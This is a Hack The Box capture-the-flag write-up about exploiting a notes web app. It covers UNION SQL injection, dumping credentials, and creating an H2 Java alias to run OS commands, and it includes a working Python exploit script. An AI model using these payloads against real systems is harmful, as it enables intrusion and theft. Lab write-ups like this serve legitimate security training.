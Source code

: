 # Pentest Notes - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We start the challenge and we are given a host to connect to via our web browser:
![[Pasted image 20250505072550.png]]

Upon going to the host, we are greeted with a login page to login or register:
![[Pasted image 20250505072633.png]]

Creating an account, we can see a checklist called 'PENTEST CHECKLIST':
![[Pasted image 20250505072722.png]]

Clicking on the SQL Injection note, we see a comment that says `One ' to rule them all`. This hints at SQLi, so we start probing the website and messing with the URL with a `'` to test for SQLi.
## Exploitation: SQLi
After adding our payload to the end of the URL, we can find some output when we use 3 `NULL`s, which indicates the notes have 3 columns.

We also determine that the first column is not a string, but the second and third (Name and Note) columns are strings. We can determine this by replacing `NULL` with `a` for the `NULL` value:
![[Pasted image 20250505075257.png]]

We list all the databases with: `' UNION SELECT NULL, schema_name, NULL FROM information_schema.schemata--`
![[Pasted image 20250505075946.png]]

We have 2 databases: 
1. INFORMATION_SCHEMA
2. PUBLIC

We query the `INFORMATION_SCHEMA` database to list all the tables, and see a table called `USERS`. We query the table to see all the columns, then get all the users usernames and passwords in the table:
![[Pasted image 20250505081303.png]]

If we login as `user` with password `123`, we just get to the same page with the same PENTEST CHECKLIST.

I continued to search through all the tables, but couldn't find anything useful. I decided to capture requests in Burp Suite to see what I could find through there.

We capture a request in Burp Suite when re-loading the page to find a POST request being sent to /api/note:
![[Pasted image 20250505094118.png]]

Here we find we can also submit the SQL injection through the name of the request (after `SQL Injection`):
![[Pasted image 20250505094359.png]]

Since we already went through all the tables and couldn't find anything, we can try to get command injection through the following payload:
![[Pasted image 20250505094518.png]]
This command does the following:
- Ends the current SQL command.
- Creates a Java-based SQL function named `EXE_CMD` that can run any system command.
- Comments out the rest of the original SQL query to avoid syntax errors.

Now we can execute commands with the following payload:
![[Pasted image 20250505094753.png]]

We traverse through the file system and find a file that contains the flag:
![[Pasted image 20250505100141.png]]
# Automation with Python
Script created to automate the challenge:
```python
import requests  # Used to make HTTP requests (GET, POST, etc.)
import re        # Used for regular expressions to search for patterns (e.g., the flag format)

# Base target URL (replace with the current HTB instance IP:PORT)
base_url = 'http://83.136.248.49:52176'

# Create a persistent session object to retain cookies and headers across requests
session = requests.Session()

# Step 1: LOGIN TO THE APPLICATION
# Construct the full login endpoint
login_url = f'{base_url}/login'

# Provide default credentials to log in
login_data = {
    'username': 'user',
    'password': '123'
}

# Set HTTP headers to mimic a normal browser request
login_headers = {
    'Content-Type': 'application/x-www-form-urlencoded',  # Form submission format
    'Origin': base_url,  # Helps prevent CSRF on some servers
    'Referer': f'{base_url}/login',  # Shows the source page of the request
    'User-Agent': 'Mozilla/5.0'  # Mimics a real browser to avoid being blocked
}

# Send POST request to login with the above data and headers
response = session.post(login_url, data=login_data, headers=login_headers)

# Check if session cookie (JSESSIONID) is set, which indicates a successful login
if 'JSESSIONID' not in session.cookies.get_dict():
    print("Login failed or session not set properly.")
    exit(1)  # Exit the script if login fails

print("Logged in successfully.")

# Step 2: CREATE A MALICIOUS SQL ALIAS 
# Payload to inject SQL that defines a new Java alias 'EXE_CMD' for executing system commands
alias_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection'; CREATE ALIAS EXE_CMD AS 'String exec(String cmd) throws Exception { "
    "Process p = Runtime.getRuntime().exec(cmd); java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter(\"\\\\A\"); "
    "return s.hasNext() ? s.next() : \"\";}' --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Headers for sending multipart/form-data (needed for file/form uploads)
alias_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Endpoint to create a note, which is being abused here for SQL injection
alias_url = f'{base_url}/api/note'

# Send malicious payload to the vulnerable endpoint to create the alias
response = session.post(alias_url, data=alias_payload, headers=alias_headers)
print("Alias payload sent.")

# Step 3: USE THE ALIAS TO EXECUTE A SYSTEM COMMAND
# This payload injects a UNION-based SQL query to call the EXE_CMD alias and read the flag file
exploit_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection' union select NULL,NULL,EXE_CMD('cat /JN8fe3XRqTYK_flag.txt') --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Use same headers as above since we're still submitting multipart form data
exploit_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Reuse the same endpoint to now exploit the alias and read the file
response = session.post(alias_url, data=exploit_payload, headers=exploit_headers)

# Step 4: SEARCH THE RESPONSE FOR THE FLAG
# Look for a flag matching HTB{...} format using regex
flag_match = re.search(r'HTB\{.*?\}', response.text)

# If found, print it; otherwise, show a failure message
if flag_match:
    print(f"Flag found: {flag_match.group(0)}")
else:
    print("Flag not found.")
```
- Logs into the target site and keeps the session alive using `requests.Session()`
- Submits a payload to create a Java alias function to execute OS commands
- Sends a second payload to trigger the alias and read the flag file
- Extracts and prints the flag

Result:
![[Pasted image 20250505103827.png]]